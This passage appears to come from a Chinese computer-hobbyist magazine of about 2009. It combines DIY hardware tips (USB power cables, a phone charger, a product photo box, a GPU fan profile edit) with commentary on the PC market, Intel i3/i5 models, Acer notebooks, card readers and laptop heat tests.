- 2. “母头对母头”的USB转接头一个，虽然比较少见，但还有的卖，价格在5元左右，如果线缆和它一起买，10元是可以搞定的。

有了它们就可以通过转接法进行组装了，将两个公头插入电脑后面的两组USB接口中，一个公头与母对母USB转接头相连，这样就完成了一个加强供电版USB线缆。

到这步可能会有朋友来问：至于这么麻烦吗？说来说去无非就是一个USB延长线，为什么要这么组装呢？这里解释一下，因为现在市面上的终端设备接口还处于各自为政的阶段，这么做只是提供了一条双线供电的延长线，不会破坏原有的设备使用，虽然在接口转换过程中会有一定的电能损耗，但它还是能提供800mA左右的电流，无论用它连接外置光驱、移动硬盘，还是电视盒，都能一定程度上缓解供电不足的问题。特别是有些电视盒录像声音小的问题，也能通过加强USB供电的方法得到解决。

## 最后还要提醒大家一点：

就是两个公头一定要分别连接到机箱后面的两组USB接口上，因在USB2.0标准中，“每组”接口仅能提供最大500mA的供电量，不分为两组插接是起不到辅助供电的效果。

> （北京/杨潇宇）

# 三诺摩机大赛 期待新一轮的王者

当圆满地完成颁奖典礼及摩机讲堂后，三诺摩机首站北京分站赛落下了帷幕，短短几天的赛事令人意犹未尽。虽然选手们精湛的技艺表现、张谦先生精彩的讲座将摩机技巧一展现在人们眼前，却无法平息广大爱好者对摩机体验的热切追求与交流。

转瞬之间，第二站上海分站赛即将展开。据三诺王念东先生透露：上海分站赛的评选方法将会做出一些人性化的改进，考虑到许多参赛选手的时间安排与居住地点等问题，此站的选拔将会在深圳三诺总部进行。三诺公司将收集参赛者的作品在总部的专业地点与评委们进行试听，虽然依旧是封闭式评选，但条件已有所放松，可安排深圳周边地区的热心网友进行参与，现场观摩评委们对作品的试听与评奖，使整个赛事在公平、公正的原则下稳步进行。本刊读者如想参与到上海站的作品评选过程，可发送邮件至yingpqz@cfan.com.cn进行报名，本刊及三诺公司会抽选幸运读者参与至其中。

北京站已然过去，但获奖选手们依旧在准备着，为总决赛继续完善着自己的方案与作品，力求达到最佳的效果。文无第一，武无第二，参赛者均想在此获得提名，奖品、奖金不是目的，技术的交流与知识的获取才是他们的原动力。第二次参赛的路庆仁，便是本着技术交流、增长知识的目的，不懈努力着。

生于1982年的路庆仁，在大学毕业后从事过单片机开发、钣金及机械设计等工作，现就职于与朋友合开的一家弹簧公司。他也具有着80后男性所应有的“毛病”，对电脑及其周边有着超乎寻常的喜爱之情。1997年开始接触电脑后，这种情感便一发不可收拾。他对记者说到，在十多年前便是《电脑爱好者》的忠实读者，基础知识的积累便是从此开始，还曾向《电脑爱好者》投过稿，很可惜未能采用。也许便是因此潜心开始钻研技术，走上了摩机的“不归路”。

大概是在2005年，当路庆仁还在做单片机研发工作时，偶然的机会在网络上看到了一篇关于摩机的方案，很恰巧的是方案所用的音箱与他正在使用的产品相同，便开始自己动手改造。初次体验之后，发现摩完的音箱果然与之前有着不小的提高，一发不可收拾。之后又在网络上查找各个关键器件的资料，按照自己的意愿来重新做电路板。在不断的摸索中慢慢前行，渐渐地就喜欢上摩机。

路庆仁个人觉得摩机至少要有些电子电路和声学的基础，这点与宋泉先生的回答相同。“如果没有电子电路的基础，就看不懂原来的电路设计，便无法分析其中的问题；如果没有声学基础，自己摩完的箱子也无法分辨出是好是坏。”他用很简短的话回答了我们的提问：“参赛的初衷很简单，不为名，不为利，只是想多结识一些摩机圈内的朋友，丰富自己的知识水平。”

“在摩机的过程中，也会遇到无法解决的问题，对我来说就是时间，因为平时的工作太忙，仅能靠晚上挤出来的时间去完善自己的方案与作品，但为了避免影响他人休息，又不敢将音量调大试听，所以无法精准地去改造与查找出现的问题。很多想法也没有得以实现，本来想加入一个变压器，但箱体内空间有限，放弃了；备用方案中也因时间关系和条件，缺少相应的检测设备，不得不去放弃，很遗憾没有展现出应有的东西来。”路庆仁有些懊恼地述说以上的问题。

他的改造，是以电路为主，路庆仁在参考N45G电路原有配置时，发现功放芯片采用的是TDA7265（25W×2），变压器的功率为80W，输出功率则是（21W+18W）×2。而前级方面的电源是直接在滤波电容上串联了个电阻引过去，这样处理一般情况下是没什么问题的，但是在播放瞬间动态过大的音乐时就有可能因为前级功率不够，而引起失真。所以他主要是在电源与前级方面进行了一些优化，增加了一级稳压，更换了前级运放并且对其进行了些优化，而其他方面都是些小改动。

“我认为我低频与动态上做得还可以，相比之下高频则黯淡了很多。在最近的准备时间内，主要是在平衡感上下功夫，改善高音环节，使自己的作品尽量没有明显的缺陷。其实呢，摩机并不是很难，主要多学多做，必然能摩出一款自己喜欢的音箱，有耐心地进行下去，可能下一站的获奖者便是你。”

他不追逐名利，参加摩机大赛的动力正是三诺摩机大赛所期望达到的目标，将闭门造车的玩家们聚集在一起，交流技术，丰富知识，推动我们音频领域的发展。这是三诺的目标，也是广大摩机爱好者的目标。

> （本刊记者/张博）

# 丰衣足食 网店拍照自己来

这年头，马无夜草不肥。看着同事们三三两两在工作闲暇之余，上网开辟一亩三分地，经营下自己的网店，赚点零花，我也有点坐不住了。既然大家都弄，咱也不是没商业头脑的人，注册个淘宝，开通个拍拍，说干就干。当然，初期还是弄点小玩意比较简单一些，一是投入成本比较少，二则运输、打理起来也方便。

嘿嘿，当初偷懒，盗链别家宝贝图片的事情被发现了，弄了一身麻烦，说也说不清，还是自己动手丰衣足食吧。咨询了下“色友”，据说拍小件静物很简单，也就依葫芦画瓢，弄个看看。

朋友说最简单的就是用个节能灯和白色的卡纸，试验了下还真是，节能灯用固定式或自己买个灯泡装一个都成，功率不超过40W就可以，光线正合适。想来想去，最后自己买的灯泡和灯座，DIY了一个，15元就搞定。这么做也是出于便利性考虑，台灯虽然固定方便，移动还是有点麻烦。白色卡纸整张的卡纸没个几十块钱下不来，好在单位A4的打印纸比较多，卷点回来铺在桌子上，也能凑合用，但一定不能用高级相片打印纸，不仅反光，自身颜色也不是很对。

弄了一段时间后发现，这么拍小物件（如戒指、手链）还能对付，再大一点的产品就会有阴影出现，影响视觉效果。专业的摄影平台咱置办不起，动手做一个吧。

- 准备工作：一个平整的纸盒、一些硬纸板、白色A3、A4打印纸、剪刀、壁纸刀、透明胶带、双面胶等。
- 第一步：把纸盒展开，用硬纸板给纸盒折痕加固。
- 第二步：把展开加固后的纸盒成形。
- 第三步：用透明胶带把四周的边缘加固下。这几步下来，就能成形简易摄影棚外形。
- 第四步：做一个U形纸条，U形纸条的目的是可以适当反射光线，使被摄物品上的光线更为柔和、均匀。
- 第五步：把U形纸条粘贴在底部棱角处，这一步是为了使摄影棚底部成圆弧状。
- 第六步：给摄影棚内部裱上白色的打印纸，尽量不要贴死，方便日后根据需要更换其他颜色背景。

简单的几步就能做出一个简单的摄影平台，光源呢，在左右各安放一个节能灯，消除阴影。但这平台在白天或是环境光不稳定的时候，效果并不是很好，可以用另外一种方法，找到一个大的纸壳箱，例如CRT显示器或者老电视的包装箱都可以，挖空一面后在里面贴满打印纸，并在箱体的上方钻出一个通线孔，将组装的节能灯垂钓下来。这个摄影平台可以应付绝大部分静物拍摄工作，如果有光线不均或阴影的情况，只要适当移动被摄物品的位置便可。

平台搞定了，再说说数码相机的问题。相机用什么样的随自己喜欢，上到单反，下到卡片，只要满足以下条件就成：相机有效像素不低于200万（网站对分辨率要求不高，能看清细节就好）；具有手动拍摄功能；相机微距能力在5cm以下；有自定义白平衡功能；有曝光补偿功能。具备了以上条件，基本上就能拍出漂亮的宝贝照片（好像现在的相机都有这样的功能哦）。有时大家可能会说照片拍不好是相机烂，其实除了相机本身受制于感光元件的大小与镜头等问题，成像效果或许有些欠佳外，更多的是自己不会使用和设置，这个时候就不能犯80后的毛病了，仔细阅读下说明书，大有裨益。

## 小知识：

自定义白平衡可以帮你判断选择白平衡，什么是白平衡呢？简单点说，一张白纸本身应该是白色的，而如果在其他光源的照射下，这张纸会呈现出光源的颜色，也就是白色受到了干扰变色，这个时候相机如在自动白平衡下也会被光源所“骗”。但如果告诉相机，这张纸就是白色的，那么相机就会把“变色”的纸设定为白色，拍摄的时候就还原了白色。简单来说，白平衡就是让目标“白色”始终是白色。平时如果拍出来的照片有偏色的话就是白平衡没有定义好，在相机的白平衡里可以找到一些白平衡的光源设定模式，比如说，在阳光下拍摄可以使用阳光模式，在荧光灯下拍摄可以使用荧光灯模式，一般的自然光也可以使用自动模式。

若想调校好相机，首先便是白平衡，在相机内选择手动设置白平衡选项，对准制作好的平台内光线均匀的地方，使白色充满相机取景器，按下设置键（不同的相机有不同的设置键，会在相机屏幕上有提示）。这时会发现，相机中看到的白纸和刚刚看到的白纸的颜色有了变化。然后在同一个地方，放上拍摄物品，此时拍出的效果便是正确的。如果光源发生了变化，那么就需要重新设置手动白平衡。

相机的曝光补偿功能可以在相机拍摄时进行调节，补充光线不足或光线过于强烈时引起的曝光不足和过曝。相机的曝光补偿一般是以1/3为步进，多试验几次便可以得到想要的结果。这里有个小窍门——“白加黑减”，用通俗的话说，如果被摄物品是白色的，就适当地增加曝光补偿；而物品是黑色的话，便相应减少。这么做能突出产品的细节和还原本色，原理呢，解释起来比较麻烦，大家记住这个方法便可。

之所以这么麻烦的制作摄影平台和调整相机，目的是减少后期的工作量，不要以为PS很好很强大便忽视前期的工作。我们的淘宝店宝贝很多，在后期不可能花费过多的时间去调整照片质量，而且即便是PS有时也很难还原白平衡不准确的物体本色，所以稍微下点工夫在前期拍摄上，比在电脑前对着屏幕头大强多了，如果能直接出片是最好的，省时省力。

（北京/豆子）

# 自制多头USB手机充电器

现有的手机品牌、型号繁多，简单设想一下，每个家庭成员所用的手机品牌并不相同，充电器自不能通用（全家品牌党除外），出门旅行不仅增加分量，对接线板的插孔数量也会有一定要求。据调查，宾馆很少能提供4个以上的三相电源口。如果我们可以自制一个USB“万能充”，既不用准备单独充电器，又可在没有电源的情况下使用笔记本紧急充电。市场上早就有此类产品，但价格不菲，且不一定能刚好支持自己的手机，所以还是要发挥DIY的精神。

## 设计思路，前期准备

USB接口可提供5V直流电源，而手机充电器的电压一般是4.3V左右，因此要串联一个0.7V左右的二极管将电压降至4.3V，然后再正确接好USB连接线及手机电源引线即可。
在整个制作过程中需要用到以下工具及小配件：

- 相应手机充电接头，可以从废弃的手机充电器上截取下来以备用（爱国者动力舱接口配件丰富，也可在淘宝单独购买零件包进行改造）；准备万用表（也可以使用发光二极管替代，用来确定正负极）；普通二极管（用以降压，推荐IN4007二极管）；USB连接线（可以从废弃鼠标、键盘或是其他USB设备线上获取）；哥俩好胶布一卷、壁纸刀。

## 外科手术

- 第一步：将USB连接线截断，留下的长度适宜平时在电脑上引出并方便给手机充电为宜，再用刀将USB延长线剪切端的外皮划开，整理出其中的四根引线，然后将USB插头插入电脑的USB插槽，用万用表测量，看哪两根线之间有5V电压。如果没有万用表，也可以使用发光二极管来检测出两根电源线及判断出正负极。

## 小提示：

在插入电脑USB接口时，请注意不要让这几根线之间接触，防止烧坏电脑USB接口。如果四根线是黑、白、黄、红的话，一般情况黑色的引线就是电源负极，红色的引线为电源正极，这样就能找到USB的电源输出线。找到两根电源输出线以后，将其余引线剪断不用。

- 第二步：将之前准备好的多个手机充电线接头的外皮去除，通常会见到红、黑两根电源线，其中红色电源线为正极，黑色电源线为负极。为了确保万无一失，请将电源线插入相应的手机插孔，再使用万用表检测正、负极。
- 第三步：将备用以降低电压的二极管串联到USB连接线中，然后再将多个手机充电线（这些充电线并联连接到一起）以串联的方式接到USB连接线及二极管中，最后小心地使用胶布缠好，固定即可。

经过上面三步操作后，将USB连接线插入电脑，用万用表电压挡检测电压极性和大小是否符合要求，在确认一切无误后，就可以用电脑对手机进行充电了。

（安徽/睿德）

# 噪声阵阵何必烦忧

AMD-ATI在2008年推出的RV770系列显卡（HD4830、HD4850、HD4870）不仅价格低，并且性能很好，成为了市场的宠儿，但其配备的原装风扇噪音大也让很多用户非常烦恼。以往的解决方法都是更改BIOS后刷新，麻烦不说并且风险不小。其实修改驱动提供的配置文件也可以很轻松地解决这个问题。

- 第一步：右键点击Windows任务栏右侧的ATI图标，选择Catalyst Control Center（催化剂控制中心）选项，在弹出的窗口中点选“高级”复选框，并点击“下一步”。
- 第二步：在随后出现的界面左侧选择ATI Overdrive选项，此时可以看到显卡的GPU、显存和风扇转速等信息，但默认为“灰色”，所以要点击“解锁”图标。
- 第三步：点击“配置文件→配置文件管理器”，创建一个配置文件，命名后点击保存（本文中命名为4850），这时在桌面就会出现一个4850快捷方式。
- 第四步：在“文件夹选项”中，把“隐藏受保护的操作系统文件（推荐）”取消勾选，并选中“显示隐藏的文件和文件夹”。
- 第五步：找到ATI驱动在Windows系统中当前用户的配置目录，Windows XP为C:\Documents and Settings\用户名\Local Settings\Application Data\ATI\ACE，Windows Vista或Windows 7为C:\Users\用户名\AppData\Local\ATI\ACE。
- 第六步：用记事本打开“4850.xml”文件，查找FanSpeedAlgorithm_0，在该位置下面一排的“Property name="FanSpeedAlgorithm" value="Automatic"/”内容中，将value="Automatic"改为value="Manual"；查找FanSpeedPercentTarget_0内容，在该位置下面一排的“Property name="Want" value="14" /”中，将value="14"改为value="20"，保存并退出。由于在普通2D使用时，14%的风扇转速会导致核心温度过高，而20%的风扇转速在噪音上并不明显，为了稳定所以改高了一些数值。
- 第七步：按照第四步和第五步的方法，创建3D游戏时运行的配置文件（本文中命名为4870），在相同目录的4870.xml中的相应位置，将value设置为65，此时桌面会再增加一个名字为4870的快捷方式。

桌面上的两个快捷方式就成了我们“换挡”的工具，在上网聊天时切换到4850，游戏时切换到4870，即可在噪音和温度上达到一个平衡。

（文/许宁）

## 性能至高论 你还能走多久

1968年，摩尔、诺伊斯、格鲁夫这三个“伙伴”离开原来的仙童公司，一起开创事业。吸引他们成立新公司的一个重要原因是：这一市场几乎完全依赖于高新技术。你可以尽可能地在一个芯片上放最多的电路，谁的集成度高，谁就能成为这一行业的领袖。

时至今日，很多人还在争论，摩尔定律在现在的制造工艺下还能支撑多久。但是，在性能飞速发展的时候，我们看到了在制造领域之外的瓶颈，还是英特尔？还是意外之举，Atom（凌动）的热销让人反思，为何晶体管无尽堆叠带来的性能提升给我们的感觉却不明显？

## 新一代产品，叫好不叫座

2009年对于IT业界是不平凡的一年，Core i7的发布，Geforce GTX295的发布分别代表了CPU和GPU性能的巅峰。但它们背后的是惨淡的出货量和曲高和寡的市场反应，面子产品成为了它们的另一个代号。不单单如此，在宣传上此类高端产品也打起了应用牌，i7的视频编解码能力、媒体制作能力和乏善可陈的多任务处理能力；GTX295的CUDA（通用并行计算架构）等等……某AIC板卡厂商工程师在接受本刊采访时指出对于很多游戏来说，其帧数在最新的显卡上往往已经超过了100帧，这个帧数对于“流畅”这个概念来说显然已经超过太多，而且对游戏玩家来说这更是一种计算资源的浪费。

根据第三方2008年电脑购买意向统计，在价格方面，高性价比的中低端电脑依然是主流，选择会购买价位在3000元~4000元电脑的用户所占比例为32%以上，而选择1万元以上价位电脑的用户比例还不到3%。

- Link：别说i7了，酷睿能玩的游戏，我的Athlon X2 3600+一样能跑，30fps和40fps差距有那么大吗？
- 米果：现在升级硬件的感觉明显不如当年从K6升级到PⅡ时候的感觉，除了几个硬件杀手游 戏可以看看华丽的效果，还有什么？
- 疯人院院长：不仅仅是你们，硬件大厂们也很郁闷，没见到英特尔已经在桌面级展示视频编码、视频编辑了吗？真难为他们了。

## 软件 vs 硬件，前者发展明显滞后

相信一部分读者已经拥有Xbox、Wii等家用游戏机，家用机软件（游戏）的特点是封闭环境，充分利用机能，以达到价值的最大利用。并且在这些之后是巨大的产业链结构和丰厚的回报。

我们再回头来看通用PC软件，不但大量浪费着硬件资源并且由于盗版和P2P的存在让本来微薄的利益进一步下降，导致个人电脑（区别于服务器、工作站）已经成为软件大厂第一个放弃的对象。

不仅仅是软件厂商，其实硬件厂商也在想着各种各样的方法去充分利用资源，而不是盲目地追求数字上的提升，脱离软件的桎梏也慢慢地取得了一些进展。英特尔高级副总裁兼数字企业事业部总经理帕特·基辛格(Pat Gelsinger)在接受《福布斯》杂志采访时表示硬件的虚拟化，不但使得性能获得充分利用，并且将令传统操作系统解体。

- 米果：钱，还是钱。没有收益哪来的开发？看看人家iPhone，就那个硬件配置游戏一个比一个有创意。为什么？那还不简单做好了有钱赚啊！

## 局势很难扭转，PC 向着两极分化发展

由于软件开发的窘境在短时间内不可能解决，就目前趋势来看通用PC的发展方向已经出现了两极分化的现象：

一方面是笔记本的轻薄化，性能已经够用，于是在占用空间和外观等方面有着更严格的要求，同时大尺寸笔记本和上网本也在弥补着曾经台式机的中低端市场；另一方面是游戏发烧用使用的高性能游戏主机，追求的是极致的性能，也可以说是纯理论性能的追求，而后者所占比例正在日益缩小。

聚焦到DIY领域来看，消费者逐渐开始不再为硬件性能的提升买单，更多的关注于新硬件带来的体验和应用，而外形整体化、软件定制化的趋势给DIY带来的冲击会越来越大。当电脑成为廉价并且通用产品的时候，作为DIY最大特点的性价比也就无法凸显出它的优势。如何体现自己的特点，如何去充分利用那溢出的性能才该是芯片级厂商该好好思考下的问题。

（本刊记者/张磊）

## i3、i5傻傻分不清楚

酷睿i7的推出让很多读者着实流了一把口水，可高达2000元的处理器加上近2000元的主板让整个平台成本无法被广大消费者接受。在时隔近一年后，其主流版本i3、i5的推出让很多人摩拳擦掌的同时也不禁疑惑，型号“乱”成为其最大的罪魁祸首。

### 酷睿 i3（移动版）

- 型号4
- 核心： Arrandale
- 制程： 32nm
- 接口： mPGA989
- 核心/超线程： 双核心/四线程
- 其他： 未知
- 一句话点评：新迅驰平台的产品，可以说是名副其实的i3（我不是马甲，我不会武功），但由于是2010年才计划面世的产品，未知的地方也很多，比如是否内置显卡等等。

### 酷睿 i3（桌面版）

- 型号1
- 核心： Wolfdale
- 制程： 45nm
- 接口： LGA775
- 核心/超线程： 双核心/无超线程
- Turbo Boost (自动超频技术)： 不支持
- 一句话点评：马甲战术的产品，实际就是酷睿2 E8000系列，现在的E8200、E8400等产品能用什么主板，i3（Wolfdale）同样还能用。

- 型号2
- 核心： Yorkfield
- 制程： 45nm
- 接口： LGA775
- 核心/超线程： 四核心/无超线程
- Turbo Boost (自动超频技术)： 不支持
- 一句话点评：和 Wolfdale 一样也是马甲战术的产品，实际就是酷睿2 QX/Q9000系列，现有的3系列（P35、G35、Q35、X38）、4系列（P45、G45、Q45、Q43、X48）都能很好的支持，甚至可能不用更新BIOS。

- 型号3
- 核心： Penryn
- 制程： 45nm
- 接口： LGA775
- 核心/超线程： 双核心/无超线程
- Turbo Boost (自动超频技术)： 不支持
- 一句话点评：迅驰2中的核心部件，同样是换汤不换药的马甲，包括T9000系列、T8000系列等，连同上面两个型号基本上可以确定的3款i3产品都是酷睿2的马甲。

### 酷睿 i5

- 型号1
- 核心： Lynnfield
- 制程： 45nm
- 接口： LGA1155
- 核心/超线程： 四核心/无超线程
- Turbo Boost (自动超频技术)： 支持
- 一句话点评：正宗 i7 血统，除了 QPI 总线和超线程的阉割外，其他都很不错，应该会成为主流机型的首选，但其 LGA1155 的接口便意味着从主板（P55、P57、H55、H57、Q57）到内存要全线升级才可支持。

- 型号2
- 核心： Clarkdale
- 制程： 32nm
- 接口： LGA1156
- 核心/超线程： 双核心/四线程
- 其他：未知
- 一句话点评：与 i3（Arrandale）一样是英特尔明年计划推出的产品，新制程并且集成显卡，唯一让人不满的是又是一个新接口，那么便意味着与 i5（Lynnfield）的主板不能互相兼容。

看了如此多的型号，是不是有乱花渐欲迷人眼的感觉，加上i7的LGA1366接口，英特尔的主板也被区分成了高（LGA1366）、中（LGA1155\1156）、低（LGA775），刨除马甲战术的三款酷睿2（两款桌面，一款移动），可以确定现有主板基本无法升级i3、i5，更换平台成了必须，并且因为处理器整合内存控制器，DDR3也成为全线产品的必需品。

#### 小知识 什么是Turbo Boost？
简单地讲就是可以关掉1~3个核心，并自动超频未关闭的核心，这样就使得不支持多处理器的程序可以得到一个性能上的提高，而总功率却没有增加。

（文/小静）

## 大牌就是系列多：Acer篇

Acer已经拥有Ferrari、TravelMate、Aspire和Extensa四大笔记本电脑系列产品，用户群更是覆盖了从家庭到商务再到发烧友的几乎所有消费群体。

我们最熟悉的Acer笔记本系列非Aspire莫属了，性能上乘、物美价廉、工艺出众是广大消费者对Aspire的一贯印象。其实这个系列下面还有Timeline和Aspire One这另外两个子系列，Timeline系列就如同它的名字一样，强调使用时间与笔记本重量的平衡性，一个著名公式就是：时间≥重量^3。比如4810T这款14英寸的机型，重量为1.9千克，1.9的3次方大约是6.9，长达9小时的使用时间完全大于这个数字。

另一个Aspire One系列就是如今火得不能再火的上网本了，至于上网本的定位和特性，相信各位读者早已心知肚明，就不用再多说了吧。

除了主流笔记本之外，Acer自然也有TravelMate这样的商务产品，该系列以可靠耐用为主要特点，并采用镁铝合金等材质，在保证可靠耐用的基础上尽量减轻重量，方便商务用户旅途携带。当然，为了保证商务机密不被泄露，指纹识别、数据保护等软硬件功能也是应有尽有。

虽然同为家用产品，但Extensa却独辟蹊径，号称“社区笔记本”，销售渠道从传统电脑市场转为3C卖场，这个系列的笔记本电脑在具备稳重风格的同时，也考虑到了安全、易用等方面的因素，比如DASP硬盘保护技术、快“e”功能等，很适合家用。

除了以上三大系列之外，Acer还与国际顶级跑车生产商法拉利保持着密切的合作，推出Ferrari系列笔记本自然也在情理之中（类似的产品还有华硕的兰博基尼笔记本系列）。这个系列的产品就如同法拉利跑车一样，极速、奢华、质感、王者都是频频见诸媒体评测的关键词，甚至就连机身上也有嵌有法拉利的奔马车标。当然了，这样一款顶级产品，它的价格显然不会便宜。

各系列产品请浏览：
http://www.acer.com.cn/acer/product.do

## DIY与整机 谁是DIY将死的原罪

## 穿越时光DIY的前世今生

1998年，Do it yourself这个名词正式被人们接受，便宜的价格、更好的配置，成为人们津津乐道的话题。时间跳到2005年，人们意识到DIY单纯追求性价比的做法，已经不能满足使用需求了。消费者有了更多的消费选择，外观、样式、个性。但随着越来越多个性化产品推向市场，消费者的眼光不再局限于“性价比”一词。可以说，电脑市场已经由卖方市场转向了买方市场，现在，DIY这三个字母缩写的含义，是否已经过时？

## 同质化是DIY将死的原罪

为什么DIY现在沦落到如此地步？对于DIY玩家来说，DIY是为了压榨产品的剩余性能，是为了花更少的钱办更多的事儿，是自己英明睿智的代表，是自己比菜鸟更明的见证方式。但是随着电脑的普及（尤其是笔记本的普及），DIY也渐渐向着单纯的装机发展，几乎抹杀掉了所有的个性之后，DIY配件进入了价格时代。

厂商的价格竞争导致了DIY市场的单一化。在我们看来，DIY将死一部分原因是整机厂商造成的，另一方面，则是DIY配件厂商自己造成的。这就是我们认为的原罪。更短的产品周期，让那些走精品路线的品牌失去了更多发挥自己实力的空间，而价格战则伤及了整个市场的根基，消费者也在逐渐对DIY失去兴趣——反正摆出来的都是一个样，我干嘛非要买DIY？

## DIY?

对此，板卡巨头技嘉方面也持相似的看法：“现在市场需求与原来很不一样，大家都在拼市场，产品同质化问题比较严重。你看现在的P45主板，小厂商能够提供的，都是芯片组赋予的功能。为了节省成本，几乎没有任何研发……只有提供更多元化的选择，更个性化的技术，更体贴的功能，这才是消费者需要的。同时，市场的两极分化也越来越明显，个性化需求越发旺盛，这是与以前市场需求的不同之处。”

## 不死DIY 个性化是出路

当然，也不是没有例外。索泰推出了一款ION平台产品，一经推出，就受到了消费者的欢迎；对于关注整机产品的消费者来说，Acer推出的ION平台产品Revo非常受关注（详见本期评测栏目），而在DIY市场，你还有另外的选择。尽管价格比较高，但消费者对它的热情可一点儿都不低。毕竟Revo还搭配显示器出售，不适合升级玩家，约束较多。通过DIY则可以按照自己的想象去打造属于自己的平台，这才是它的本质含义。

### 小知识：什么是ION‘离子’平台

NVIDIA MCP79芯片组和Intel Atom处理器组合的产品叫ION(离子)平台，功耗比Intel Atom平台更低，并且，MCP79支持DirectX 10，游戏兼容性出色，还具备CUDA软件加速、全高清解码等功能，成为Atom平台的有益补充。

再比如技嘉的主板产品，2倍铜技术让主板的更具特性，这样个性化的设计一样受到了消费者的热烈追捧。不难看出，即便是笔记本电脑大行其道的今天，如果有好的DIY产品出现，消费者依然非常认可。

同时，很多非常个性化的产品，最终是需要通过DIY手段实现的。就拿我们说的这个离子平台来举例。为什么整机厂商推出该产品的少之又少？从我们采访到的信息总结来看，原因有这么几个：第一，整机厂商受上游厂商制约严重；第二，产品开发周期较长，反应速度不快；第三，对市场的观望心态严重。

对于第一点，无论是华硕还是联想，都受到Intel的制约——强制捆绑销售，要用Atom处理器，配套芯片组也必须买下！这样的捆绑政策几乎无法接受。成本压力太大。其二，即便整机厂商能够接受这样的成本问题，开发周期也较长，根本做不到DIY那样的灵活快速。从调研开发到生产，一套流程下来少说也要半年时间。第三，市场的观望心态严重。其实如果你多看看厂商主页，尤其是其在世界其他地区的主页，你会发现有很多产品不是每个地区都在销售——对市场的观望态度决定整机厂商并不能像DIY那样做到灵活多变。

有厂商人员私下表示，DIY的快速灵活其实是他们羡慕的，作为整机厂商，想要做到灵活多变几乎不可能，受到的制约，来自外部也好内部也好，都非常多。所以，DIY并不会死，相反，这恰好是DIY厂商最大的优势。DIY可以按照自己的想象去打造属于自己的平台，这才是它的本质含义。

## 万变不离其宗 读卡器导购技巧

提到读卡器，许多拥有数码产品，尤其是拥有数码相机的朋友对此并不陌生。但发明读卡器的初衷，是为了摆脱早期数码相机传输速率低的尴尬而诞生的。而在今天，数码相机的传输限制被USB 2.0标准出现所解除，但因存储卡有众多标准，使读卡器的寿命得以进一步延续。

常见的存储卡有：
- SM卡（几乎消失）
- CF卡（常用于单反相机中，也有些BT的朋友拿它做磁盘阵列）
- Memory Stick（记忆棒，常见于索尼产品中）
- Memory Stick Duo（记忆棒的短版）
- Memory Stick Micro M2（记忆棒的缩小版）
- SD（主流产品）
- SDHC（大容量高速SD卡，主流产品）
- Mini SD（SD的另外一种应用）
- Micro SD（手机常用存储卡，也称为TF卡）
- MMC（老古董，几乎消失）
- XD（几乎消失）等。
这么多存储卡摆在面前，想必也只有多合一读卡器能解决了。

### 小知识：

如何确定读卡器是否可以支持SDHC卡片？贴有读卡器的SD接口，如果它是支持的，那么会在上面标注出SDHC的字样，且一般会排在SD的前面。

由于读卡器的技术门槛并不高，市场中售卖的产品可谓鱼龙混杂，在选购时需要注意。读卡器可分为直插式、连线式与接线式，直插式产品体积小巧，携带方便，但一般属于单一型读卡器产品，能兼容的存储卡类型极为有限；连线式是将USB接口用较短的连接线连接在读卡器上，携带时可以将USB完全隐藏，缺点嘛，当然是接线较短，适用性不强；而接线式则完全没有连线式的问题，却需要多准备一根USB延长线，连接接口的磨损与线缆的长度会影响到它实际的使用效果。这三种产品各有利弊，选择中还是需要根据需求来定夺。

当然，在购买过程中还需要注意的是，标注可读SD的读卡器是否能读取SDHC存储卡。现今市场中还有很多老款产品依然售卖，它们是可读SD而不能读SDHC，如飚王ALLIN-1，除了刚才所提到的，还有很多杂牌产品，价格极为低廉，虽然标注可兼容SDHC，但实际效果想想也知道。另外由于索尼的Memory Stick有多种格式，选购时一定要确定是否可直接读取手中的卡，不要轻易地相信JS的忽悠，发生“你只要弄个卡套不是一样读嘛”这样的惨剧。还有一点需要说明的是，使用同样的存储卡，在不同的读卡器上，读写速度会有细微的差别，如果读卡器价格差别较大，那么之间的差距还会进一步拉大，对速度有所要求的用户尽量选择知名品牌的产品，这样会有所保证。

## 做人不学三季稻 用本不能只两年

三季稻本是在同一块稻田里一年中种植和收获三季水稻，这里所提及的三季稻，其实是游戏《魔兽世界》中的一个ID。他之所以如此出名，甚至有人为其编辑了百度百科的词条，三季稻之歌、三季稻之诗，都是因为他坚持不懈地攻击级别更低的玩家所致。

他作为一个游戏玩家，以欺凌小号为游戏乐趣，起初极度受到抵制，但因其长年累月的重复做这件事，渐渐由恨转为崇拜，甚至被称为野外BOSS，成为游戏中的一道风景线。原因无他，坚持二字是很多玩家崇拜他的根本原因。

其实我们所要说的，也是关于坚持二字。一台本本究竟能坚持使用多久？一两年还是三、四年？每天的新品让人目不暇接（全年各品牌本本新品接近百款余款），但你使用的，终究只是一款而已。做人，当然不能学三季稻，但用本，也不能只两年。

### 网络大补丁：三季稻百科

http://baike.baidu.com/view/973302.html?fromTaglist

近两年突出游戏性能后，再加上CULV上网本之流的热销，传统笔记本只能依靠价格来争夺市场，而机型本身无论性价比高与低，尤其是那些以外形著称的机型，用起来都比较的热。注意市场卖笔记本散热器的热销，你就会了解到本本的发热多么让人担忧了。那么，多少度的本本是安全的呢？为了长效使用本本，你必须学会如何正确使用它。

- 用毛巾包裹本本，人为模拟酷热环境，看看本本的极限耐热能力吧。
- 通过测温仪读数测试能够知道笔记本外壳的当前温度，而在内部，这一温度指数还将提升大约10%左右，道理如同体表温度和体内温度一样。
- 硬盘在70度以上就开始出现了读写错误，一般来说，55度以内的硬盘工作温度是比较正常的，超过这个数字就值得警惕了。
- 显卡究竟能有多耐热呢？我们让笔记本不停运行游戏，然后在底壳显卡核心的位置放置毛巾一条，在出现花屏死机前，最热可以承受到94度，再高就出故障了（如花屏），一般来说，显卡的最高警戒值是在115度左右，但我们还是要劝告各位，超过80度就已经不太正常了（单指笔记本显示核心）。
- CPU勉强可以坚持到109度左右的高温，最终的结果就是自动循环重启，如果不采取措施，本本可有烧坏的危险哦！而且这个时候，笔记本已经是全速运行，噪音也很大。
- 本本的热源其实还有很多，比如我们长时间放到被子上使用，你会发现底部非常烫手，这很可能是笔记本芯片组的芯片所致。因为一般芯片组与显卡核心、CPU都放置在一起，这样才能让散热器全面覆盖主要几个芯片，在一台已经拆好螺钉的机器全速运行30分钟后（非毛巾包裹），立刻关机打开机壳用测温仪测量芯片组温度，竟然也高达60度！

看到这些极具破坏性的测试后，我们应该禁止以下使用方式，只有这样，才能真正让本本长效工作，用本绝不止两年哦！

